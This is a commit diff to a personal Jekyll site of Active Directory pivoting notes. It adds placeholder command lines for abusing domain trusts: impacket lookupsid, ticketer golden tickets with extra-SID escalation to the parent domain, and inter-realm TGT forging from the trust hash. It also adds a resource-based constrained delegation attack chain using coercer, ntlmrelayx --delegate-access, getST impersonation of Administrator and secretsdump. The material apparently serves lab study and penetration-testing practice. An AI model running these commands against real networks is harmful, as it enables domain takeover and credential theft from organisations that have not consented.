

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/ADPivoting.md, in a window 1280 px wide and 1400 px high, scrolled down 2293 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2807 px from its top, so only the background shows below that.

Commit message:
fixed up domain trust notes and moved delegation notes to pivoting

```diff
--- a/markdown/ADPivoting.md
+++ b/markdown/ADPivoting.md
@@ -96,7 +96,11 @@
   - `Rubeus.exe triage` to list available tickets
 
 **Abusing Domain Trusts**
-- Golden ticket
+- Remember here that since we're using kerberos we have to use DNS instead of IPs
+- Gettind SIDs
+	- Domain SIDs are often needed for tickets, so we use impacket's `lookupsid.py`
+		- `lookupsid.py -domain-sids {domain_user_domain}/{domain_user}:{password}@{target_dc_IP} 0`
+- Golden ticket using child domain
   - If a parent domain trusts us as a child domain, we can use this to create a golden ticket with SIDs in the ticket's Privilege Attribute Certificate (PAC)
   - `ticketer.py` can use `krbtgt`'s nthash to create a golden ticket
     - `ticketer.py -nthash {child_krbtgt_nthash} -domain {child_domain} -domain-sid {child_domain_sid} -extra-sid {parent_domain_sid}-519 fakeuser`
@@ -104,10 +108,40 @@
       - To use the ticket, we may need to save it with `export KRB5CCName={path_to_ticket}`, but I think impacket will recognize it in our directory for the specified user
     - We can then use the ticket to `secretsdump` or `psexec`
       - `secretsdump.py -k -no-pass {child_domain}/fakeuser@{parent_domain_machine_name}`
-- Forging inter-realm TGT
-  - We can also extract the trust key and use it to create our own trust ticket
-  - `ticketer.py -nthash {child_krbtgt_nthash} -domain {child_domain} -domain-sid {child_domain_sid} -extra-sid {parent_domain_sid}-519 -spn krbtgt/{parent_domain_name} fakeuser`
-    - This will again yield us a golden ticket, which we can use like before with `KRB5CCName` env var set to the path of the ticket
+	  - This works because we've forged a TGT that was valid for our child domain with the parent domain listed as an additional SID on the ticket, we can directly authenticate and access resources
+- Forging inter-realm TGT and getting a service ticket
+  - We can also extract the trust key and use it to create our own TGT
+  - `ticketer.py -nthash {DOMAIN$_NTLM_trust_hash} -domain {child_domain} -domain-sid {child_domain_sid} -extra-sid {parent_domain_sid}-519 -spn krbtgt/{parent_domain_name} fakeuser`
+	- The domain NTLM trust hash will look like `SEVENKINGDOMS$:1104:{hash}:::`
+	- Then, export the ticket to be used for kerberos auth with `export KRB5CCName={path_to_ticket}`
+  - We can then use this TGT to request a service ticket using `getST.py`
+	- `getST.py -k -no-pass -spn {spn}/{parent_domain_computer_name} '{parent_domain}/fakeuser@{parent_domain}' -debug`
+		- The spn value can be many different things, depending on what service we'd like to request:
+			- HOST for general host access, CIFS for SMB, LDAP for ldap, GC for Global Catalog, RPCSS for  RPC, MSSQLSvc for MSSQL, HTTP for web, WSMAN for PowerShell remoting
+	- Since this is an interrealm service-key, it doesn't provide access to services yet, so we can use it to request one of the above services from the DC
+  - We then export this new ST, and we can use it to authenticate directly to the parent domain controller
+	- `secretsdump.py -k -no-pass fakeuser@kingslanding.sevenkingdoms.local`
+	  - This would require a `cifs/` service ticket, as dumping secrets is done through SMB
+
+## Delegation
+- Resource-based Constrained Delegation (RBCD) is basically allowing one entity to perform some action on behalf of another user
+- It's very useful for giving granular permissions, for example if a service user needs to access only some resources on behalf of another user
+- Alice delegating to Bob means that Bob can request Kerberos tickets and access services on behalf of Alice
+
+**Abusing Delegation to a Machine We Control**
+- `ntlmrelayx` supports providing delegation to our owned computer accounts with `--delegate-access`
+  - This means that the target computer will delegate to our newly-created computer
+- An example attack path:
+  - Coerce a computer to authenticate to us (or gather relayable credentials in some manner):
+    - `coercer coerce -l {our_IP} -t {target_IP} --always-continue -u {username} -p {password}`
+  - Set up `ntlmrelayx` to add a computer to the domain using the relayed credentials which the coerced machine has delegation rights over:
+    - `ntlmrelayx.py -t ldaps://{dc_IP} -smb2support --remove-mic --add-computer {new_computer_name} --delegate-access`
+  - Use new computer to request a TGS from the machine's Administrator via our new delegation
+    - `getST.py -spn HOST/{target_machine_name}.{domain} -impersonate Administrator -dc-ip {dc_ip} '{domain}/{new_computer_name}:{new_computer_pass}'`
+  - Use the valid TGS to extract secrets from the target machine:
+    - `export KRB5CCNAME=./Administrator.ccache; secretsdump.py -k -no-pass {domain}/Administrator@{target_ip}`
+
+## Credential Harvesting
 
 **Getting More Credentials**
 - `vault::cred /patch` will enumerate vault credentials (creds used in scheduled tasks)
```
Also changed, not shown: markdown/ADExploitation.md (+1 -19 lines), markdown/WindowsPrivilegeEscalation.md (+1 -1 lines).
